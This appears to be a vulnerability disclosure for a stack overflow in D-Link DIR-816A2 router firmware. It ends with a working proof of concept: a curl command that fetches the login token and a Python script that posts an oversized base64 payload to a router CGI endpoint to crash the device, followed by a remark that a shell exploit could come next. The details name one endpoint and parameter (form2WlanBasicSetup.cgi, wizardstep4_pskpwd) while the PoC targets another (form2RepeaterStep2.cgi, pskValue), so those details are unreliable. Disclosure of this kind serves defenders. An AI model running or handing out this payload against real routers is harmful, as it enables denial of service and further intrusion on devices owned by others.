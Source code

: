 # DIR-816A2_FWv1.10CNB05_R1B011D88210.img Stack overflow vulnerability

## Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ： http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

Vulnerability occurs in /goform/form2WlanBasicSetup.cgi.  With the setSecurity function,the contents obtained by the wizardstep4_pskpwd parameter are passed to V9, and then the contents matched by V9 are decoded and put into the V17 stack without size checking, resulting in a stack overflow.

![](img/2.png#center)

![](img/3.png#center)
## POC

Gets the token ID

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Run poc

```python
import requests
import base64

tokenid = ''

url = 'http://192.168.0.1/goform/form2RepeaterStep2.cgi'

payload = base64.b64encode(b'a' * 10000)

data = {
    'tokenid': tokenid,
    'method': '6',
    'authType': 'a',
    'pskValue': payload

}

r = requests.post(url, data)
hunzi = r.text
print(hunzi)
```

You can see the router crash, and finally you can write an exp to get a shell.
